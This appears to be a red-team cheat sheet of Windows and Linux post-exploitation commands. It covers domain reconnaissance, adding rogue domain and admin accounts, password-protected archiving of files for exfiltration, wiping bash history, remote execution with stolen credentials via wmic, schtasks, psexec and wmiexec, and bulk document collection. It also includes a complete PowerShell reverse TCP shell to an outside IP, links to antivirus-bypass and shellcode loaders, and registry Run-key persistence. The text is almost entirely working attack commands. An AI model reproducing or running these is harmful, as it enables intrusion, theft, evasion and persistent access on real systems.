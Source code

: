 # scan



# Domain control
net user
net user /domain
net group /domain
net view /domain
net group "domain admins" /domain
net localgroup administrators /domain
net user username password /add /domain
net time /domain
net view /domain
net localgroup administrators workgroup\test123 /add
net group "domain controllers" /domain

dsquery computer
dsquery contact
dsquery group
dsquery user
dsquery subnet
dsquery server

# information package
7z.exe -r -v6m -padmin a c:\test.7z C:\AppServ\www\import*.*
7z.exe x -padmin test.7z.001 -oc:\xl

Rar.exe a -r -v6m -padmin -m3 -x*.txt -ta c:\test.rar C:\AppServ\www\import*.*
Rar.exe x -padmin c:\test.part01.rar c:\xl

makecab /d compressiontype=lzx C:\Users\lsass.txt C:\Users\lsass.cab >> C:\Users\info.txt
expand.exe lsass.cab -f:* .

# log clear
wc -l ~/.bash_history
sed -i '73,$d' ~/.bash_history
tail -10f ~/.bash_history

# remote execute
wmic /node:192.168.1.1 /user:administrator /password:"passwd" /namespace:\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
wmic /node:192.168.1.1 /user:administrator /password:"passwd" os get Caption,OSArchitecture,Version
wmic /node:192.168.1.1 /user:administrator /password:"passwd" product list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" startup list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process where name="test.exe" call terminate

schtasks /create /s 172.10.1.1 /u administrator /p "passwd" /ru SYSTEM /tn test /sc DAILY /tr "C:\Users\hacker.exe -a -b c" /F & schtasks /run /s 172.10.1.1 /u administrator /p "passwd" /tn test /i & schtasks /delete /s 172.10.1.1 /u administrator /p "passwd" /tn test /f
python psexec.py test:passwdtest@10.10.1.1 cmd
python wmiexec.py test:passwdtest@10.10.1.1
Psexec.exe \\10.10.1.1 -u test -p passwdtest cmd

# powershell
change file time
powershell.exe -command "Get-ChildItem -Path C:\ -Recurse –Include .txt,.doc,.xls,.pdf,.ppt,.docx,.xlsx,.pptf,.csv,.lnk | Where-Object { $.LastWriteTime -ge '02/01/2019 00:00:00' -AND $.LastWriteTime -le '10/27/2022 00:00:00'} | Copy-Item -Force -Destination C:\Users"

write file
powershell.exe -command "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("......")) | Set-Content testfoo.txt"

## reverse tcp shell
nc -lvp 6666

powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.10.139',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


# BypassAV
https://github.com/TideSec/BypassAntiVirus
https://github.com/clinicallyinane/shellcode_launcher/
https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html


# Persistence
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /f /v test /t REG_SZ /d "rundll32.exe "C:\Users\test\test.dll" Test"
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "test" /f
